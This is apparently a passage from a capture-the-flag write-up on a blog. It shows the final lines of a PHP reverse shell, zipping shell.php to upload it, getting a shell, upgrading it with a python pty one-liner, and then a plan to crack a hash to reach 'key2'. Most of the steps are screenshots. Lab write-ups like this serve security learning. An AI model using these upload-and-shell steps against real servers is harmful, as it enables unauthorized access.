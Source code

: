 ```php
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

<div className="Image__Medium">
  <img src="https://imgur.com/iHDOA5E.png" alt="blog_image" />
</div>

### But before we need to zip the shell.php to upload it.

```php
kali@kali:~/Desktop$ zip shell.zip shell.php
adding: shell.php (deflated 59%)
```

<div className="Image__Medium">
  <img src="https://imgur.com/8R8hdRA.png" alt="blog_image" />
</div>

Great we successfully upload our php shell ! Let's active it

<div className="Image__Medium">
  <img src="https://imgur.com/TJWP8eN.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/fQmZmpc.png" alt="blog_image" />
</div>

Nice ! :D we have a shell let's make it fancy now

```php
python -c 'import pty; pty.spawn("/bin/bash")'
```

<div className="Image__Medium">
  <img src="https://imgur.com/kMjgqa7.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/MN5tFup.png" alt="blog_image" />
</div>

As you can see we can't see the key2 but we have an hash so let's crack it

<div className="Image__Medium">
  <img src="https://imgur.com/8GOkKch.png" alt="blog_image" />
</div>
